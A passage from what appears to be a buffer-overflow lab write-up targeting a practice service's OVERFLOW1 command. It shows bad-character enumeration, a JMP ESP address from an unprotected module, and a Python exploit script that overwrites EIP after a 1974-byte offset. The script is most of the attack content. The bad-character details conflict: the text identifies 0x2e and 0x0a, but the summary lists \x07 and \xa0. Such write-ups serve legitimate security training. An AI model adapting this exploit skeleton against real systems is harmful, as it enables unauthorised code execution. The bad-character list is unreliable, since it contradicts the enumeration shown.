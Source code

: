 ```python
except:
        print "\nCould not connect!"
```

Enumerated all bad chars:

![Identified the first bad-char (0x2e)](../../zzz_res/attachments/Pasted_image_20210502181446.png)

Identified the first bad-char (0x2e)

![Identified the second bad-char (0x0a)](../../zzz_res/attachments/Pasted_image_20210502181811.png)

Identified the second bad-char (0x0a)

![There are no other bad-chars](../../zzz_res/attachments/Pasted_image_20210502181936.png)

There are no other bad-chars

Bad-chars: `\x00\x07\x2e\xa0`

## Find a jmp instruction

![Listed all modules searching for unprotected ones](../../zzz_res/attachments/Pasted_image_20210502182234.png)

Listed all modules searching for unprotected ones

![Identified the desired op-codes](../../zzz_res/attachments/Pasted_image_20210502182443.png)

Identified the desired op-codes

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

# bad-chars \x00\x07\x2e\xa0

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "\xAF\x11\x50\x62" # 625011AF   FFE4             JMP ESP
filler = "C" * (crash - (len(offset) + len(EIP) ))

payload = cmd + offset + EIP + filler

print "Fuzzing with %s bytes" % len(payload)
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(payload)
        s.close()
except:
        print "\nCould not connect!"
```
